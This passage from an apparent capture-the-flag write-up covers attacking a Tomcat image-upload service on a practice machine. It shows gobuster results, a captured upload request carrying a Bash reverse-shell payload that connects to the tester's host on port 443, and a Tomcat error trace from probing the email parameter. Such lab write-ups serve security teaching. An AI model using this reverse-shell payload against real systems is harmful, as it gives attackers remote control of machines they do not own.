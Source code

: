 `gobuster` didn't return anything other than `/images` and `/service`
(which is the upload form above).

## Shell as tomcat

### Uploads

I spent a while trying to upload files to the site in the hopes that
they might be run. I started with a Bash script that would call a
reverse shell, then an ELF from `msfvenom`, a Python script, etc.
Eventually I decided that my payload didn't seem to be being run.

Submitting the file sends an HTTP POST request with the email as a GET
parameter and the file as a form field in the POST:



    POST /upload.jsp?email=0xdf@0xdf.htb HTTP/1.1
    Host: 10.10.10.205:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.205:8080/service/
    Content-Type: multipart/form-data; boundary=---------------------------196356314313815341281577268423
    Origin: http://10.10.10.205:8080
    Content-Length: 290
    Connection: close
    Cookie: JSESSIONID=11DB6C0E281EEC29EC6B0B3A50EEE9C3

    -----------------------------196356314313815341281577268423
    Content-Disposition: form-data; name="image"; filename="shell.sh"
    Content-Type: application/x-shellscript

    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.15/443 0>&1

    -----------------------------196356314313815341281577268423--



Beside the content of the file, I control the email address (which is
passed as a GET parameter even in this POST request) and the filename.

On sending the request to Burp Repeater, bad characters (like `"`) in
the email address returns an HTTP 400 Bad Request. At the end of the
HTML is this:



    <pre>java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986
            org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:468)
            org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:292)
            org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
            org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:861)
            org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1579)
            org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
            java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
            java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
            org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
            java.base&#47;java.lang.Thread.run(Thread.java:834)
    </pre>
    <p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr />
    <h3>Apache Tomcat/9.0.27</h3>
    </body>
    <.md>
